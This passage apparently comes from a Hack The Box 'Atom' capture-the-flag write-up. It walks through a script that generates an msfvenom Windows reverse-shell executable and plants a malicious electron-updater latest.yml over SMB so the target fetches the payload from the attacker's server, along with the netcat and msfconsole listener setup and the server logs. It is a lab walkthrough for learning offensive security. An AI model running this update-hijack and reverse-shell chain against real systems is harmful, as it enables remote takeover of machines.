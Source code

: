 ### Testing

In my testing I returned to the simplest payload so far that got a hit (the second payload in [Debugging YAML Syntax](#debugging-yaml-syntax)). I simplified both the msfvenom payload and filename - you can see it in my script below:

```bash
┌──(mac㉿kali)-[~/Documents/HTB/atom]
└─$ python3 send-payload.py --lint tun0 --dir to-serve 10.10.10.237
IP Address on interface tun0: 10.10.14.39
Make sure to start required listeners before continuing.
Run a netcat listener to catch your shell: nc -lnvp 9001
Run a Python Server to serve your shell in to-serve/: sudo python3 -m http.server 80
Press enter to continue once you've started your listeners...


=== Generating Payload ===

No --msf_payload or --payload flag provided. Using default windows/shell_reverse_tcp payload and generating with msfvenom
Running command: msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.39 LPORT=9001 -f exe -o "to-serve/heed'Setup.exe"
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 324 bytes
Final size of exe file: 73802 bytes
Saved as: to-serve/heed'Setup.exe
Payload saved at: to-serve/heed'Setup.exe
Size: 73802
Base64-encoded SHA512-sum of payload: cC8htx18FMTlElNrNPuRrwu+ars1Cs05Qxg3HzXysT2Sr3iUAcmns/Gmw6llUC6lArTjXdygtNp7665Vh//0dA==

=== Generating YAML File ===

version: 2.0.9
path: http://10.10.14.39/heed'Setup.exe
sha512: cC8htx18FMTlElNrNPuRrwu+ars1Cs05Qxg3HzXysT2Sr3iUAcmns/Gmw6llUC6lArTjXdygtNp7665Vh//0dA==

YAML saved at to-serve/latest.yml

=== Uploading to SMB ===

Bytes uploaded to client1: 151
Bytes uploaded to client2: 0
Bytes uploaded to client3: 0
```

I was getting a hit and no shell:

```bash
10.10.10.237 - - [02/Jun/2021 15:53:19] code 404, message File not found
10.10.10.237 - - [02/Jun/2021 15:53:19] "GET /heed'Setup.exe.blockmap HTTP/1.1" 404 -
10.10.10.237 - - [02/Jun/2021 15:53:19] "GET /heed%27Setup.exe HTTP/1.1" 200 -


...[msfconsole]...

┌──(mac㉿kali)-[~/Documents/HTB/atom]
└─$ msfconsole -q
msf6 > use exploit/multi/handler 
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set lhost tun0
lhost => tun0
msf6 exploit(multi/handler) > set lport 9001
```